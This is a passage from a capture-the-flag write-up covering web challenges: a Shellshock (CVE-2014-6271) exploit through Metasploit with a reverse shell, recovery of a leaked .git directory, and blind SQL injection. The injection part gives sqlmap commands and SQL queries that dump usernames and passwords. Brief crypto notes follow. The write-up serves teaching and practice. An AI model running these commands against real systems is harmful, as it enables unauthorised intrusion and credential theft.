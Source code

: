 cgi\-bin/index\.cgi

Nothing special can be found by brousing, scan with nikto in kali, we found that this website is vunerable to CVE\-2014\-6271, and its exploit can be found in metasploit.

[CVE-2014-6271](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec)

However, the trouble is that we need a public IP to listen the reversed TCP, so I have enabled the port forwarding in both router and VMware, and disabled the filewalls in my host and kali virtual machine for that one port. Note that all of the port numbers \(port in router, host computer, and virtual machine\) should be same, or else the metasploit will go wrong \(I don't know why\.\.\.\).

[Metasploit Meterpreter and NAT | Corelan Team](https://www.corelan.be/index.php/2014/01/04/metasploit-meterpreter-and-nat/)

## gitmeifyoucan

Nothing special, again, so use nikto to scan, \.git leak is found.

What I did is download all the files in \.git manually, then git log, and then "git reset \-\-hard \[commit hash\]". I think there is a better automatic way to download the \.git directory.

## blind

Blind Sql injection in password.

1. use BurpSuite to take that login pakage

2. copy the http content and save it into a file

3. sqlmap \-r blind\.txt \-p password \-\-level 5, this scan to let sqlmap to know that there is indeed a injection

4. sqlmap \-r blind\.txt \-p password \-\-dbs, this gives the database information, including database type\(mysql\) and database names

5. sqlmap \-r blind\.txt \-p password \-\-sql\-shell

6. ```sql
   SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' AND TABLE_SCHEMA='webapp';
   -- webapp obtained from step 4
   SELECT * FROM webapp.users; 
   -- This can obtain id, password, username
   SELECT id, password, username FROM webapp.users WHERE username='admin';
   ```

7. flag is password

# Crypto

## bacon64

decode as base64, flag is clear text

## hashes

[www.cmd5.org](www.cmd5.org)

## RSA

[https://www.cs.drexel.edu/~introcs/Fa11/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt.html](https://www.cs.drexel.edu/~introcs/Fa11/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt.html)

## weak keys

[https://github.com/Ganapati/RsaCtfTool.git](https://github.com/Ganapati/RsaCtfTool.git)

   ```